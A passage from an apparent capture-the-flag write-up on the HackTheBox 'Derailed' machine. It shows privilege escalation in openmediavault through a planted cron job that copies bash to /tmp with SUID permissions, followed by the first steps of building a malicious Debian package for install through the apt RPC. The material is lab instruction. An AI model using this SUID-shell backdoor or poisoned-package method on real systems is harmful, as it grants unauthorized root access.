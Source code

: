That UUID matches what I put in the database, and it’s set to run every minute. `userdefined-b8068c15-0d5e-4d38-a7d0-6885a31c8a53` has the commands:

```

root@derailed:/etc/cron.d# cat /var/lib/openmediavault/cron.d/userdefined-b8068c15-0d5e-4d38-a7d0-6885a31c8a53
#!/bin/sh -l
# This file is auto-generated by openmediavault (https://www.openmediavault.org)
# WARNING: Do not edit this file, your changes will get lost.
cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf

```

If I change these files, they actually get set back by openmediavault, kept in sync with it’s “DB”.

### apt RPC

#### RPC Info

The intended path for this box is to make a malicious package and install it with the apt RPC. The code comments show that it takes an array of package names to install:

![image-20230720170120234](/img/image-20230720170120234.png)

I’ll try creating a package and passing the path as the `packages` value.

#### Create Package

There’s a ton of guides out there about how to create a Deb package. I’ve shown this before in [OneTwoSeven](/2019/08/31/htb-onetwoseven.html#create-poisoned-package). In that example, I downloaded and modified an existing package, ticking up the version so it would install from my server.

Here I’ll just create a dummy empty package with a `postinst` script that will run after install.

I’ll create a directory to work from, and inside that a `DEBIAN` directory:

```

openmediavault-webgui@derailed:/dev/shm$ mkdir -p 0xdf/DEBIAN

```

Then I create the `control` file:

```

openmediavault-webgui@derailed:/dev/shm$ cat 0xdf/DEBIAN/control
Package: 0xdf
Source: 0xdf
Version: 0.0.1
Architecture: amd64
Maintainer: 0xdf
Description: Does nothing at all...

```

